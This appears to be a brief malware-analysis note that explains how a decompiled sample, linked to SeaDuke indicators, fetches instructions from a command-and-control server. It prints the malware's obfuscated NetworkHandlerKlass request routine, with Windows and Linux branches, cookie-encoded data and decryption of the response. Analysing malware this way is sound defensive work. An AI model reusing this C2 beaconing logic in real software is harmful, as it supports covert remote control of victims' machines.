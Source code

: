 # fetching resources with urllib
urllib makes it easy to [fetch internet resources](https://docs.python.org/2/howto/urllib2.html) from a given url:
```python
# create "opener" (OpenerDirector instance)
opener = urllib2.build_opener(handler)

# use the opener to fetch a URL
opener.open(a_url)
```
`NetworkHandlerKlass` follows this sequence to fetch a resource (presumably containing further instructions) from a command and control server.
```python
class NetworkHandlerKlass(object):

	def __send_request(self,**ps):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1446
		url = ps.pop('url',self.url)
		encoded_cookie_data = None
		dqy = None
		if ps:
			encoded_cookie_data = self.__encode_cookie(ps)

		# windows 
		if botKlass.current_transport=='wininet':
			pass
			pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQiyze=HttpKlass(url,self.user_agent)
			dqy=pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQiyze.send_request(encoded_cookie_data,self.referer)

		# linux
		else:
			pass
			pd = urllib2_build_opener()  # https://docs.python.org/2/howto/urllib2.html
			pd.addheaders=[('User-agent',self.user_agent)]
			if encoded_cookie_data:
				pd.addheaders.append(('Cookie',encoded_cookie_data))
			if self.referer:
				pass
			pz = pd.open(url)
			dqy = pz.read()  # ATTENTION: this is the resource retreived from url
			yed = pz.info().get('Content-Encoding')
			if yed:
				dqy = CryptoKlass.unpack_data(dqy, yed)
		return dqy
```